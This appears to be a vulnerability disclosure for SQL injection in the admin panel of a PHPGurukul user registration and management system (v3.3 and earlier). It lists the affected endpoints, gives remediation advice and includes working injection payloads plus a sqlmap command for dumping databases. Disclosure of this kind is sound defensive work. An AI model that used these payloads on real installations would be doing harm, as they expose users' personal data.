

# 📌 SQL Injection via `searchkey` POST Parameter in `search-result.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3

---

## 👨‍💻 **BUG Author**:
**4m3rr0r**

---

## 📦 **Product Information**

- **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
- **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
- **Affected Version**: <= 3.3
- **Product Name**: User Registration & Login and User Management System With Admin Panel

---

## 🛠 **Vulnerability Details**

- **Vulnerability Type**: SQL Injection (CWE-89)
- **Affected Files**: 
  - `admin/user-profile.php` (`GET` parameter `uid`)
  - `admin/manage-users.php` (`GET` parameter `id`)
  - `admin/search-result.php` (`POST` parameter `searchkey`)
- **Authentication Required**: ✅ Yes (Admin login)
- **Exploitability**: High

---

## 🧨 **Vulnerability Type**
SQL Injection (CWE-89) - improper neutralization of special elements used in an SQL command.

---

## 🧬 **Root Cause**

The application directly injects unsanitized user inputs (`uid`, `id`, `searchkey`) into SQL queries without using prepared statements or input validation.

---

## ⚠️ **Impact**

- Database enumeration
- User data leakage (emails, phone numbers, names)
- Unauthorized data access
- Full database dump possible

---

## 📋 **Description**

The product contains multiple SQL Injection vulnerabilities in its admin panel. A logged-in administrator can abuse vulnerable endpoints to manipulate backend SQL queries, bypass intended controls, and exfiltrate data.

---

## 🔬 **Proof of Concept**

### Vulnerable Endpoints

```http
POST /loginsystem/admin/search-result.php (searchkey=test)
```

### Example Payloads

- `' OR 1=1-- -`
- `' AND SLEEP(5)-- -`
- `' UNION SELECT NULL, CONCAT(user(), 0x3a, database()), NULL-- -`

### sqlmap PoC

```bash


sqlmap -u "http://192.168.16.109/loginsystem/admin/search-result.php" --data="searchkey=test" --cookie="PHPSESSID=your_session" --risk=3 --level=5 --batch --dbs
```




---

## 🛡 **Suggested Remediation**

- Use prepared statements (parameterized queries)
- Validate and sanitize all inputs (GET and POST)
- Implement server-side input validation logic

---

## 🔐 **Security Recommendations**

- Enforce least privilege access to DB user accounts
- Log and monitor admin user activities
- Apply input validation and output encoding
- Regular security audits of PHP code

---

## 📚 **References**

- [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

